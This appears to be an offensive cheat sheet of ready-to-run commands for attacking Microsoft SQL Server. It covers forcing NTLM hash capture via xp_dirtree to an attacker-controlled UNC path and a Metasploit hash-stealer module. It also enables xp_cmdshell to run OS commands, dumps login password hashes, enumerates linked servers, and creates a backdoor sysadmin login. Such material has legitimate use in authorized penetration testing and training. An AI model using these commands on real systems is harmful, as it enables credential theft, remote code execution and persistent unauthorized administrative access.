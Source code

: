 # mssql-cmd

% mssql, Microsoft SQL Server, 1433
#plateform/linux  #target/remote  #protocol/sql  #port/1433 #cat/ATTACK

## Hash gathering
```
xp_dirtree '\\<local_ip>\any\thing'
exec master.dbo.xp_dirtree '\\<local_ip>\any\thing'
msfconsole -x "use auxiliary/admin/mssql/mssql_ntlm_stealer"
```

## turns on advanced options
```
sp_configure 'show advanced options', '1'
RECONFIGURE
```

## enables xp_cmdshell (turn on advanced options)
```
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

## execute command
```
EXEC master..xp_cmdshell '<cmd|whoami>'
```

## Get databases
```
SELECT name FROM master.dbo.sysdatabases
```

## Get table names
```
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

## Get Linked Servers
```
EXEC sp_linkedservers
SELECT * FROM sys.servers;
```

## Get users
```
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```

## Create user with sysadmin privs
```
CREATE LOGIN jubeaz WITH PASSWORD = '<password|Jube@z123!'
sp_addsrvrolemember 'jubeaz', 'sysadmin'
```

## check admin rights
```
IS_SRVROLEMEMBER('sysadmin');
```

